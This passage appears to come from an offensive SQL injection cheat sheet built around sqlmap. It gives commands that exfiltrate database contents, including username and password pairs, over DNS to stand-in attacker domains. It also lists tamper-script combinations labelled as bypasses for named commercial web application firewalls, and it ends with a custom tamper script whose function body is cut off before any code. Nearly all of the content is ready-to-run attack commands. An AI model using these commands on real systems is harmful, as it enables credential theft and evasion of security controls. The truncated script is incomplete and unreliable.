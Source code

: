 **Techniques**:
```bash
# DNS exfiltration setup
sqlmap -u "http://target.com/page.php?id=1" --dns-domain="attacker.com" --technique=B

# Custom DNS exfiltration
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT CONCAT(username,':',password) FROM users" --dns-domain="exfil.attacker.com"

# DNS over HTTPS exfiltration
sqlmap -u "https://target.com/api/search" --data='{"q":"test"}' --dns-domain="doh.attacker.com" --technique=T
```

### Advanced WAF Bypass Techniques
**Objective**: Bypass Web Application Firewalls using various tamper scripts and techniques

**Built-in Tamper Scripts**:
```bash
# Multiple tamper scripts for different WAFs
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode,randomcase

# CloudFlare bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2plus,charencode,randomcase,equaltolike

# ModSecurity bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode,randomcase,between,equaltolike

# AWS WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2dash,charencode,randomcase,between

# Imperva bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2mssqlblank,charencode,randomcase,between

# Akamai bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2plus,charencode,randomcase,between,equaltolike

# F5 BIG-IP ASM bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode,randomcase,between,equaltolike,greatest

# Barracuda WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2plus,charencode,randomcase,between,equaltolike,greatest
```

**Custom Tamper Scripts**:
```python
#!/usr/bin/env python
# Custom tamper script for advanced WAF bypass

import re
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    # Advanced WAF bypass tamper script
    # Example: tamper("1 AND 1=1") returns '1/**/AND/**/1=1'
    
```